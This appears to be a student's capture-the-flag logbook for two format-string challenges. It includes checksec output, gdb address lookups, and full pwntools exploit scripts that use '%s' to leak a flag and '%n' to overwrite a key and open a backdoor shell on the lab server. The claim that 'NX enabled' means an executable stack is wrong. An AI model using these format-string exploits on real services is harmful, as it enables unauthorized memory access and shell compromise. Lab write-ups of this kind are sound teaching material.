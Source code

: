 # CTF 6

## Desafio #1

### checksec

```
[11/24/21]seed@VM:~/CTF/6$ checksec --file=program --extended
  RELRO : Partial RELRO
  STACK CANARY: Canary found
  NX: NX enabled
  PIE: No PIE
  Clang CFI: No Clang CFI found
  SafeStack: No SafeStack found
  RPATH: No RPATH
  RUNPATH	: No RUNPATH
  Symbols: 81 Symbols
  FORTIFY: Yes
  Fortified: 0
  Fortifiable:  2
  FILE: program
```

We can conclude that:

- There is a _canary_ preventing the change of the return address of functions
  (or at least making it harder)
- The _stack_ has execution permission (NX) - We can execute code that we inject
  (e.g.: shellcode)
- The position on the binary aren't randomized (PIE) - we can get the addresses
  of variables/registers using a debugger.
- There isn't a seperated stack (SafeStack) - _return addresses_ aren't
  protected.

### Qual é a linha do código onde a vulnerabilidade se encontra?

```c
scanf("%32s", &buffer);
(...)
printf(buffer); // Vulnerability
```

### O que é que a vulnerabilidade permite fazer?

The vulnerability allows us to read and write to variables/registers that we
aren't supposed to, thus allowing us the read the **flag** global variable.

### Qual é a funcionalidade que te permite obter a flag?

By using '%s' on `printf`'s format string, we can read the contents of the flag
char array. To do this, we just need to obtain the address of said variable.

### Flag's memory address

```
[11/24/21]seed@VM:~/CTF/6$ gdb program
Reading symbols from program...
(...)
gdb-peda$ b load_flag
Breakpoint 1 at 0x8049256: file main.c, line 8.
gdb-peda$ run
(...)
Breakpoint 1, load_flag () at main.c:8
8	void load_flag(){
gdb-peda$ p &flag
$1 = (char (*)[40]) 0x804c060 <flag>
```

The address of the flag is `0x804c060`

### Exploit

```py
#!/usr/bin/env python3
from pwn import *

LOCAL = False

if LOCAL:
    local = './program'
    p = process(local)
else:
    url = 'ctf-fsi.fe.up.pt'
    port = 4005
    p = remote(url, port)

p.recvuntil(b":")

content = bytearray(0x00 for i in range(32))
val = 0x0804c060
content[0:4] = (val).to_bytes(4, byteorder='little')
content[4:6] = ("%s").encode('latin-1')

p.sendline(content)
p.interactive()
p.recvuntil(b"got:")
p.sendline(b"hi")
p.interactive()
```

`flag{5fc247063bea425edc863667ac9d09bc}`

In this simple exploit, we store the address in the beginning of the array, and
then use '%s' to read from that memory position. We only need 1 '%s', because
`printf`'s pointer starts right on top of the buffer.

## Desafio #2

### checksec

```
[11/24/21]seed@VM:~/CTF/6$ checksec --file=program --extended
  RELRO : Partial RELRO
  STACK CANARY: Canary found
  NX: NX enabled
  PIE: No PIE
  Clang CFI: No Clang CFI found
  SafeStack: No SafeStack found
  RPATH: No RPATH
  RUNPATH	: No RUNPATH
  Symbols: 79 Symbols
  FORTIFY: Yes
  Fortified: 0
  Fortifiable:  1
  FILE: program
```

### Qual é a linha do código onde a vulnerabilidade se encontra?

```c
scanf("%32s", &buffer);
(...)
printf(buffer); // Vulnerability
```

### O que é que a vulnerabilidade permite fazer?

The vulnerability allows us to change the contents of the `key` variable in
order to access the restricted area of the code.

### A flag é carregada para memória? Ou existe alguma funcionalidade que podemos utilizar para ter acesso à mesma?

The flag is not loaded to memory, but it is present in a file on the target
machine. The functionality that we can exploit to gain access to said file is
obtaining the correct key, activating the backdoor on the server. This spawns a
shell that we can use to read the file contents.

### Para desbloqueares essa funcionalidade o que é que tens de fazer?

To unlock this functionality, we abused the `%n` on `printf`. Our input is
passed as the format string of `printf` without any sanitation. We start by
using `gdb` to obtain the address of the `key` global variable. If we write the
correct number of chars using `printf` (0xbeef), calling `%n` on the key's
correct address will write 0xbeef to it, unlocking the backdoor.

Our buffer isn't big enough to write the needed quantity of chars, so we make
use of number padding to print more characters. This makes it so we can't have
the address of `key` at the beginning of the variable because calling `%`
commands advances `printf`'s pointer forward. We write enough to have printed
0xbeef chars, and then advance the pointer forward to the first available
position that is multiple of 4.

### Exploit

```py
#!/usr/bin/env python3
from pwn import *

LOCAL = False

if LOCAL:
    local = './program'
    p = process(local)
else:
    url = '10.227.243.188'
    port = 4005
    p = remote(url, port)

p.recvuntil(b"...")

content = bytearray(0x00 for i in range(32))
password = 0xbeef

# the -24 is explained below
pad_str = "%0" + str(password - 24) + "x"
content[0:len(pad_str)] = (pad_str).encode('latin-1')

x_str = "%x"
x_len = len(x_str)
n = 3
for i in range(len(pad_str), len(pad_str) + x_len * n, x_len):
    content[i:i+x_len] = (x_str).encode('latin-1')

content[14:16] = ("%n").encode('latin-1')
val = 0x0804c034
content[16:20] = (val).to_bytes(4, byteorder='little')

with open('badfile', 'wb') as f:
  f.write(content)

p.sendline(content)
p.recvuntil(b"You gave")
p.interactive()
```

We subtract 24 from the **password** because the '%x's used print some
characters:

- first '%x' - 38343025 - this one is the one that is left-padded with zeros.
- second '%x' - 78393738
- third '%x' - 78257825
- fourth '%x' - 78256e2578254

If we sum the length of the results of the last 3 '%x', we get 24. These numbers
come from the format string we constructed.

### Flag

`flag{1174a93d4e4fa9e0e19f4cba8ee8d8d8}`

![Acquiring flag from challenge 2](./LOGBOOK6_img/cft_2.png)
